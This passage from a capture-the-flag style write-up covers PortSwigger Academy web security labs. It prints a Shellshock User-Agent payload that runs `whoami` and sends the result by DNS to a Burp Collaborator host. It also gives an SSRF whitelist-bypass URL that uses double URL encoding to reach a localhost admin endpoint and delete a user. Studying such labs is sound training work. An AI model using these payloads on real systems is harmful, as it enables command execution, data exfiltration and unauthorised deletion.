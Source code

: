 

Now make sure to set your payload to the number ranges and click start, you also need to use `/usr/bin/nslookup` instead and copy your payload from burp collaborator as shown earlier using it as a subdomain

```
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).em43yvxowsqgiubilkmzzot35ublzbn0.oastify.com
```


![](https://i.imgur.com/qkjglW6.png)


Navigating back to the collaborator tab you should find the username as requested by the challenge 


![](https://i.imgur.com/eT8GEqV.png)




# [SSRF](https://portswigger.net/web-security/ssrf) with whitelist-based input filter


This was literally a pain in the ass for me 🥲 also, have this particular session of this challenge was copied from [here](https://infinitelogins.com/2021/01/09/server-side-request-forgery-ssrf-portswigger-academy-lab-examples/) so i will just drop the payload first


```
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```


In this example, there are a handful of bypasses we’ll need to implement.

First, we’ll try and issue a request to `localhost`. We find that the returned response tells us “stock.weliketoshop.net” must be included in the request.

![](https://infiniteloginscom.files.wordpress.com/2021/01/image-40.png?w=1024)

Knowing we’ll have to include that text in the request, we test to see if the application will accept embedded credentials by adding `username@` to our request. Doing so returns a different response, as if the webserver attempted to connect to “username”.

![](https://infiniteloginscom.files.wordpress.com/2021/01/image-41.png?w=1024)

This is great, but it’s pointless if we don’t have a way to indicate a URL fragment. We can usually utilize the # sign for this, but the application rejects requests that contain that character. To get around this, we’ll Double URL Encode the # sign so that it is represented by %2523. Notice how now the request goes through.

![](https://infiniteloginscom.files.wordpress.com/2021/01/image-42.png?w=1024)

Finally, we can replace “username” with localhost, and see that the response returns a webpage! By appending `/admin/delete?username=carlos`, we can issue a request that deletes the Carlos user.

![](https://infiniteloginscom.files.wordpress.com/2021/01/image-39.png?w=909)
